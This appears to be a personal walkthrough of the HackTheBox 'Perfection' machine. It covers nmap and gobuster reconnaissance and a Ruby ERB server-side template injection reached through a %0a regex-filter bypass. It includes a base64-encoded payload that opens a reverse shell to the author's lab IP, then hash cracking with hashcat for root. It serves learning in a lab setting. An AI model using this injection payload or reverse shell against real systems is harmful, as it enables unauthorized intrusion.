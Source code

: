 ### Perfection Machine Write up 

I haven't made any machines in tryhackme or hackthebox for a long time, but now i'm starting with it again. Honestly i'll try to do more machines in hackthebox because tryhackme is getting a little boring, so let's go. On that machine i'm gonna try to use metasploit to organize the gathering information, let's see if it helps :). As i really don't know how to use it yet i'm gonna document everything down here to fix it in my memory. 

First of all, i need to download the postgresql to use the metasploit database and start the msfdb.

```bash
$ sudo pacman -S postgresql 
$ msfdb init
$ msfdb start
```

your output must be like this:

![[Pasted image 20240303163502.png]]

To check if everything is set up right, use db_status command after msfconsole. Before going straight to exploitation and crazy stuff we need to set up an workspace for us, the default workspace is "default" and you can check this using "workspace" command. I'm gonna create a new one to work in this room called akame_ws.

So now we can get started, start the machine in htb, connect to their vpn and add it in your hosts to make easier manipulate the address. 

Starting with a nmap scan to enumerate the machine below:

```bash
$ sudo nmap -Pn -sC -sV perfection.htb -oX perfection.xml | tee perfection_scan.log
```
-Pn - This flag disable the ping scan to see if the host or hosts are up and if they are, continue with the another scan such a port scan. This can be useful when you are enumerating a big network or more than one host, but in this case is useful so i disable it.

-sC - This flag is same that --script=default and it's related to the Nmap Script Engine(NSE), NSE is a feature from nmap that allow users to write and share scripts in Lua Language to useful network tasks and this scripts are executed in parallel your command runs and can be found at "/usr/share/nmap/scripts/". -sC means that nmap will use "defaults scripts" what means probably mean a bunch of scripts but it's useful(sometimes not stealth).

-sV - This flag is used to enumerate services and versions, when nmap finds a open port, he will tries to connect to get some information about what kinda of service it is and tries to guess the version. Again, is not the best choice if you are trying to be stealth again because it establish a connection from your machine to your target.

perfection.htb - Is the host name that you've added to your host file, it can be just the ip address too, doesn't change much.

-oX - I'm using this flag to generate a xml output to import using the msfconsole after the scan is done.

tee - The last one is a pipe and tee to send all output that is generate in terminal to perfection_scan.log file.

![[Pasted image 20240303173233.png]]

![[Pasted image 20240303173606.png]]
seeing the web page, looks like is a web site with a kinda of grade calculator with some inputs available at perfection.htb/weighted-grade

![[Pasted image 20240303174616.png]]

this inputs can be vulnerable to injections such as xss, but first i'm gonna analyze the all web site with developers tool and see what more we have.

![[Pasted image 20240303175054.png]]

it's a tip for users and looks like Susan is the admin, while i'm trying to explore this inputs i'm gonna let gobuster running to see if i can find any directory.

```bash
$ gobuster dir -u perfection.htb/ -w /usr/share/wordlist/directory.txt
```

So, while i was testing inputs i received this response here:

![[Pasted image 20240303180627.png]]

Maybe i can bypass this protection if it's client side, i'm gonna use burp to intercept the request and modify from there.

The protection was server side, i couldn't bypass it just avoiding javascript. I've spend a lot of time trying bypass this shit because every special characters were being blocked but only / and %. Because of the use of % is allowed i was thinking about html encode chars, but it doesn't help so much until i figure out that %0a was able to bypass the regex filter. After the "\n" or %0a, it doesn't filter and now i was able to insert whatever i want to. In this step i was thinking this as command injection directly in the machine but i was wrong. So after a lot tries i received a error message using this payload:

![[Pasted image 20240304161652.png]]

it's url encoded, normal must be look like this: mycategory%0a;<%= 7*7 %> 

but in that point i was thinking about how this shit works and doing some search looks like is a Server-Side-Template-Injection, i really underestimate this machine because the easy level but looks like here the things here are a little warmer. I didn't know this type of vulnerability so it's a good chance to learn.

This vulnerability appears when it's possible to use the native language syntax to inject malicious payloads, looking that way can be quite similar to sql injection, these payloads will run and being executed in somewhere, can be server-side or even loaded in user-side. Template are used for generate custom web pages, reusing static web pages elements while defining dynamic elements using parameters, like in this calculator. An template is getting my input and creating this result showing the grades to me. This [blog](https://medium.com/@olivia.j.01101001/how-to-use-php-templating-engines-for-web-development-6800c9048b9c) show good examples of template uses.

Using some portswigger examples:

`$output = $twig->render("Dear " . $_GET['name']);`

This is vulnerable to Server-Side-Template-Injection, but to exploit this you will need to use specific template syntax to escape from the render function and execute your own commands. There is a bunch templates that are being used thought the internet and to exploit one of these you need to identify the template engine and to achieve this you'll need to manually test different language-specif payloads and finding the right one in a process of elimination. 

In your case, according to the HackTricks website, the right one is called ERB and is the language is Ruby.

![[Pasted image 20240304172815.png]]

So now that we can execute commands, is simple to get a reverse shell, let's do it. 

![[Pasted image 20240304182704.png]]

```bash
category1=a///A77ss/e%0A;<%25%3d+system("echo IyEvYmluL2Jhc2gK
YmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTIxLzIyMjIgMD4mMSIK | base64 -d | bash")+%25>+

```

It was the payload that i did use to get a reverse shell and get the user flag in home directory of Susan user.  The good notice was that Susan were part of sudo group, so the only think that i did need was figure out the susan password.

![[Pasted image 20240304182857.png]]

So doing some search between files and some output from linpeas.sh i found this email here:

![[Pasted image 20240304192638.png]]

Ok so all good so far, susan's password is something like "susan_nasus_??????????". But this wasn't to find the susan password because bruteforce 1 billion will take a long time, so i was thinking that might had something else and it did. I found a credentials.db inside the Migration folder in susan's home directory. This type of file can be used to "reconstruct" a database(this is what i understood) using tools like sqllitebrowser and that was i did.

![[Pasted image 20240304185352.png]]

![[Pasted image 20240304185259.png]]

And now we have some hashes and probably is more realistic try to use a tool to "brute-force" it. Was we already knew about a half of the password, i used some wildcards in hashcat to make the process a little quicker.

![[Pasted image 20240304192601.png]]

And there is:

![[Pasted image 20240304193125.png]]

now just spawn a bash terminal and got the root flag :)
![[Pasted image 20240304193420.png]]

A lot of fun doing this machine, i don't think the first part of this machine was easy because create a payload that properly works to get a shell was really pain in my ass exploiting this ssti vulnerability but the root flag was really easy tbh.

